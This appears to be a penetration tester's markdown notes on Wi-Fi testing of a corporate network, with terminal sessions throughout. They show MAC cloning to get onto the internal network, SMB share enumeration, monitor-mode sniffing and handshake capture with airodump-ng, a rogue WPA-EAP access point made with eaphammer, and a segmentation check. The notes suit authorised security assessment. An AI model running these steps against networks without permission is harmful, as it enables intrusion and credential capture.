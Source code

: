# WiFi Tests

## Access to internal network through MAC cloning

Clone the MAC address of the AP:
```
sudo macchanger -m a4:00:4e:73:19:c4 eth0

Current MAC: 50:7b:9d:d6:f0:95 (unknown)
Permanent MAC: 50:7b:9d:d6:f0:95 (unknown)
New MAC: a4:00:4e:73:19:c4 (unknown)
```

Get IP address through DHCP:
```
┌──2024/07/04─11:28:39──(sysop@xka)-[~/Downloads/EAP_buster]
└─$ sudo dhclient eth0
┌──2024/07/04─11:29:11──(sysop@xka)-[~/Downloads/EAP_buster]
└─$ ifconfig eth0
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
inet 10.18.224.2 netmask 255.255.255.192 broadcast 10.c.c.c
inet6 fe80::a600:4eff:fe73:19c4 prefixlen 64 scopeid 0x20<link>
ether a4:00:4e:73:19:c4 txqueuelen 1000 (Ethernet)
RX packets 127 bytes 17719 (17.3 KiB)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 51 bytes 5281 (5.1 KiB)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
device interrupt 16 memory 0xf1200000-f1220000

┌──2024/07/04─11:29:24──(sysop@xka)-[~/Downloads/EAP_buster]
└─$ ip route
default via 10.z.z.z dev eth0
10.18.224.0/26 dev eth0 proto kernel scope link src 10.z.z.z
┌──2024/07/04─11:29:33──(sysop@xka)-[~/Downloads/EAP_buster]
└─$ cat /etc/resolv.conf
domain <domain>.net
search <domain>.net
nameserver 10.x.x.x (here you should have the primary DNS server)
nameserver 10.x.x.x (here you should have the secondary DNS server)
```

Connection to Internet:
```
┌──2024/07/04─11:30:19──(sysop@xka)-[~/Downloads/EAP_buster]
└─$ traceroute 1.1.1.1
traceroute to 1.1.1.1 (1.1.1.1), 30 hops max, 60 byte packets
1 r10-x-x-x.<domain>.net (10.x.x.x) 0.371 ms 0.244 ms 0.211 ms
2 10.y.y.y (10.y.y.y) 0.265 ms 0.274 ms 0.211 ms
3 10.z.z.z (10.z.z.z) 8.217 ms 8.151 ms 8.084 ms
4 138.a.a.a (138.a.a.a) 9.141 ms 9.075 ms 9.619 ms
5 100.b.b.b (100.b.b.b) 11.418 ms 11.354 ms 11.290 ms
6 100.b.b.b (100.b.b.b) 11.224 ms 9.600 ms 9.759 ms
7 one.one.one.one (1.1.1.1) 8.178 ms 8.155 ms 8.165 ms
┌──2024/07/04─11:32:00──(sysop@xka)-[~/Downloads/EAP_buster]
└─$ curl heise.de -v
* Host heise.de:80 was resolved.
* IPv6: 2a02:2e0:3fe:1001:302::
* IPv4: 193.x.x.x
* Trying 193.x.x.x:80...
* connect to 193.x.x.x port 80 from 10.y.y.y port 42166 failed: Connection refused
* Trying [2a02:2e0:3fe:1001:302::]:80...
* Immediate connect fail for 2a02:2e0:3fe:1001:302::: Network is unreachable
* Failed to connect to heise.de port 80 after 18 ms: Couldn't connect to server
* Closing connection
curl: (7) Failed to connect to heise.de port 80 after 18 ms: Couldn't connect to server
```

Connection to internal network:
```
┌──2024/07/04─11:32:58──(sysop@xka)-[~/Downloads/EAP_buster]
└─$ dig +short bsctintra.net
10.x.x.x
10.x.x.y

┌──2024/07/04─11:34:33──(sysop@xka)-[~/Downloads/EAP_buster]
└─$ smbclient -L 10.x.x.x
Password for [WORKGROUP\sysop]:
session setup failed: NT_STATUS_NOT_SUPPORTED
curl: (7) Failed to connect to heise.de port 80 after 18 ms: Couldn't connect to server
```

Trying to access to a SMB share:
```
┌──2024/07/04─11:35:48──(sysop@xka)-[~/Downloads/EAP_buster]
└─$ smbclient -L 10.x.x.x -U <username>
Password for [WORKGROUP\<username>]:

Sharename Type Comment
--------- ---- -------
ADMIN$ Disk Remote Admin
C$ Disk Default share
Common Disk
D$ Disk Default share
E$ Disk Default share
IPC$ IPC Remote IPC
NETLOGON Disk Logon server share
SYSVOL Disk Logon server share

Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.x.x.x failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available.
```

## Sniffing traffic from all around antennas

First, terminate all the processes that can make issues:
```
airmon-ng check kill
```
Enable our wireless interface to work in "monitor mode":
```
airmon-ng start wlan1
```
The output should contain a string like `monitor mode enable`. In this manner, the interface `wlan1` is in monitor mode, so it will sniff the information around and cannot be intercepted because it is only receiving but not transmitting any data. Indeed, by opening Wireshark, we would see only incoming data. Useful information could be inside "beacon frames" where you can check if there are security mechanisms like OWE, 802.1e and so on. So, beacon frames could provide several information.

Now we must dump traffic in a cap file:
```
airodump-ng --band abg wlan1 --essid "Contoso-Corporate" -w <outfile>
```
The command dumps the traffic from all networks on the a, b and g bands. If you don't specify `-w` argument, it will save files by using a default name.

The first section of the running command shows the access points with "Contoso-Corporate".
The second section contains the list of clients connected to the access points. The clients are specified under the "STATION" column, while the BSSID is the MAC address of the access point). If we get some `not associated`, it means that it is a client with a wireless card that is not connected to any access point. We see that because, even if a client is not connected to anything, if it has the WiFi enabled, it still transmits data.

By the way, from the last command above, we must identify on which channels the "Contoso-Corporate" is working on. We retrieve this information from the first section. Depending on the antenna you are using to sniff, the sniffer might work on a lot of channels (just see the `CH` string on top-left side of the running command), while an access point, when active, generally is fixed on a specific channel, unless of particular events like collisions. Let's guess our  Then you can run:
```
airodump-ng --band abg wlan1 --channel 1 --essid "Contoso-Corporate" --bssid <MAC-address-access-point> -w <outfile>
```
By this command, we sniff only on the channel 1 of "Contoso-Corporate".

Now, if we want to capture for example the 4-Way Handshaking, we can now connect a client to the rogue access point. The sniffer will capture the traffic and store it in the cap file.

For further checks, you can open the cap file by Wireshark and analyse it. The first EAP calls are in cleartext and cannot be encrypted, because they are needed to exchange the certificate. However, from the packets, we can extract useful information related to the company. The encryption will start after the "Success" that confirms we are connected correctly to the access point.

## Rogue Access Point

To set up a rogue access point, run:
```
sudo eaphammer -i wlan1 --channel 1 --auth wpa-eap --essid Contoso-Corporate
```
I enforce this rogue access point to work on channel 1. After this, we can use the legitimate client to connect to the rogue access point. Note that if you are in the range of the legitimate access point, your client will see only one SSID, so you must be sure to connect to the rogue one.

## Network segmentation verified from Guest WiFi to Corporate WiFi

```
┌──2024/07/04─12:02:47──(sysop@xka)-[~/Downloads/EAP_buster]
└─$ ifconfig wlan0
wlan0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
inet 10.x.x.x netmask 255.255.252.0 broadcast 10.x.x.x
inet6 fe80::4252:4839:5dce:5b14 prefixlen 64 scopeid 0x20<link>
ether 44:85:00:73:76:c5 txqueuelen 1000 (Ethernet)
RX packets 53581 bytes 68644408 (65.4 MiB)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 11695 bytes 1729846 (1.6 MiB)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0

┌──2024/07/04─12:02:57──(sysop@xka)-[~/Downloads/EAP_buster]
└─$ ip route
default via 10.x.x.x dev wlan0 proto dhcp src 10.x.x.x metric 600
10.x.x.x/22 dev wlan0 proto kernel scope link src 10.x.x.x metric 600

┌──2024/07/04─12:03:03──(sysop@xka)-[~/Downloads/EAP_buster]
└─$ cat /etc/resolv.conf
# Generated by NetworkManager
search pwlan.ch
nameserver 193.x.x.x
nameserver 193.x.x.x

┌──2024/07/04─12:06:28──(sysop@xka)-[~/Downloads/EAP_buster]
└─$ smbclient -L 10.x.x.x -U <username>
do_connect: Connection to 10.x.x.x failed (Error NT_STATUS_IO_TIMEOUT)
An attempt has been made to spoof the IP address:
┌──2024/07/04─12:31:06──(sysop@xka)-[~/Downloads/EAP_buster]
└─$ sudo ip route del default dev wlan0
┌──2024/07/04─12:31:20──(sysop@xka)-[~/Downloads/EAP_buster]
└─$ sudo ip route add default via 10.y.y.y dev wlan0
┌──2024/07/04─12:31:53──(sysop@xka)-[~/Downloads/EAP_buster]
└─$ ping 10.y.y.y
PING 10.y.y.y (10.y.y.y) 56(84) bytes of data.
^C
--- 10.y.y.y ping statistics ---
8 packets transmitted, 0 received, 100% packet loss, time 7157ms
┌──2024/07/04─12:32:17──(sysop@xka)-[~/Downloads/EAP_buster]
└─$
```
In the example above, it was not possible to reach (ping) internal resources.
